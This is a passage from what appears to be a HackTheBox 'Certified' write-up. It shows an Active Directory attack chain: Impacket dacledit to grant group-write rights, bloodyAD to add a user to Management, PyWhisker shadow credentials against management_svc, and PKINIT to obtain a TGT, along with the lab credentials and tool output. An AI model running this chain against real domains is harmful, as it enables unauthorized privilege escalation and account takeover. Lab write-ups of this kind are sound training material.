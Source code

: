 ~~~ shell
┌──(trit㉿chimp)-[~/HackTheBox/Certified]
└─$ impacket-dacledit  -action 'write' -rights 'WriteMembers' -target-dn "CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB" -principal "judith.mader" "certified.htb/judith.mader:judith09"
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250211-091234.bak
[*] DACL modified successfully!
                        
┌──(trit㉿chimp)-[~/HackTheBox/Certified]
└─$ bloodyAD --host 10.10.11.41 -d 'certified.htb' -u 'judith.mader' -p 'judith09' add groupMember "Management" "judith.mader"
[+] judith.mader added to Management
~~~

I ran `PyWhisker`, a **Kerberos Authentication** exploit tool in Active Directory. After running the tool, I got a cetificate and password.

~~~ shell
┌──(trit㉿chimp)-[~/HackTheBox/Certified]
└─$  python pywhisker.py -d "certified.htb" -u "judith.mader" -p judith09 --target management_svc --action add
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 9dc83e5c-78c8-912a-b013-ca5517dca95e
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: hlKGNdqR.pfx
[*] Must be used with password: V7kTvmXjRw8yDNgaw4s3
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
~~~

> "The clock skew is too great" error in Kerberos
This error occurs due to the time difference between your machine (Kali) and the Domain Controller (certified.htb). Kerberos requires the time between the client and server to match (usually the maximum difference is 5 minutes)
{: .prompt-warning }

- If you are not currently running as the root user, switch to the root user by running the `sudo su` command.
- Run `timedatectl set-ntp off` to disable the Network Time Protocol from auto-updating.
- Run `rdate -n $IP` to match your date and time with the date and time of the your target machine.


I used PKINIT (Public Key Cryptography for Initial Authentication in Kerberos) to obtain a TGT (Ticket Granting Ticket) for the management_svc account. You can download [here](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py).

~~~ bash
┌──(trit㉿chimp)-[~/HackTheBox/Certified]
└─$  python gettgtpkinit.py -cert-pfx hlKGNdqR.pfx -pfx-pass V7kTvmXjRw8yDNgaw4s3 certified.htb/management_svc hhh.ccache

INFO:minikerberos:07229e48b98f6800f3c17aaef3a49815c7b1fff0881969a3756856366a8a87f6

~~~
